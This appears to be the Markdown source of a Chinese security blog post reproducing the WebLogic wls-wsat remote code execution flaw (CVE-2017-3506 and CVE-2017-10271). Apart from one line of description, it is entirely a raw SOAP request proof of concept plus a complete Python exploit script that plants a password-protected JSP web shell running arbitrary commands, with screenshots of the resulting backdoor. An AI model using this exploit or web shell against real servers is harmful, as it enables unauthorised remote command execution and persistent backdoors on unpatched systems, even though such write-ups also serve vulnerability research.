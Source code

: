 ```yaml
---
title: "WebLogic RCE 复现"
date: 2018-02-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



WebLogic Server 组件的 WLS Security 子组件存在安全漏洞, 可造成任意代码执行.

<!--more-->

poc

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.2.100:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 582

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/vuln.jsp</string><void method="println">
                        <string>weblogic</string></void><void method="close"/>
                    </object>
                </java>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

发送代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560533.jpg)

访问 /bea_wls_internal/vuln.jsp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560609.jpg)

本地查看

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560621.jpg)

已经生成成功

**exp**

```
import requests
import sys

def exploit(url,filename):
    content = '<% if("weblogic".equals(request.getParameter("pass"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>'
    payload = '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><java version="1.6.0" class="java.beans.XMLDecoder"><object class="java.io.PrintWriter"><string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/'+filename+'</string><void method="println"><string><![CDATA['+content+']]></string></void><void method="close"/></object></java></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
    headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0','Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8','Upgrade-Insecure-Requests':'1','Content-Type':'text/xml'}
    response = requests.post(url+'/wls-wsat/CoordinatorPortType',data=payload,headers=headers)
    if response.status_code == 500:
        print 'Shell:',url + '/bea_wls_internal/' + filename + '?pass=weblogic&cmd=whoami'
    else:
        print 'Fail'

if __name__ == '__main__':
    print '[*] WebLogic wls-wsat RCE Exp'
    print '[*] CVE-2017-3506 & CVE-2017-10271'
    print
    if len(sys.argv) == 3:
        exploit(sys.argv[1],sys.argv[2])
    else:
        print 'Usage: WebLogic_Exp.py url shell.jsp'
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560673.jpg)

backdoor.jsp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/02/1517560689.jpg)